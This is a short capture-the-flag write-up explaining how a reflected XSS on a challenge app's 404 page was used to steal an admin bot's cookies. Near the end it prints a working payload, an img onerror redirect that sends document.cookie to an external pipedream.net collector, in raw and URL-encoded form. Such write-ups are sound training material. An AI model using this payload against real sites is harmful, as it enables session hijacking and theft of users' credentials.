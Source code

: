 Looking at the code we can see when a url is submitted the bot will load the current site, set cookies then our url

Due to how the cookies are set they are only valid for the local server so we cant just send the bot to our own page to get tem

Looking about more shows that the error 404 page takes raw user input and puts it on the page so that could be an XSS vector

Playing around with that 404 page give us the following info
* Request has to be URL encoded
* Using script tags causes the app to hang
* Using img with onerror=fetch loads but the background driver doesnt run it

So knowning that fetch doesnt work another possible way of getting output of the cookies is by using `location.replace` which will redirect to a different site

Final solution was to use onerror=location.replace
```
<img src=1 onerror=location.replace("https://en8bp1gmewv3v01.m.pipedream.net?"+document.cookie)>
http://127.0.0.1:1337/%3Cimg%20src%3D1%20onerror%3Dlocation%2Ereplace%28%22https%3A%2F%2Fen8bp1gmewv3v01%2Em%2Epipedream%2Enet%3F%22%2Bdocument%2Ecookie%29%3E
```

CHTB{th1s_1s_my_bug_r3p0rt}
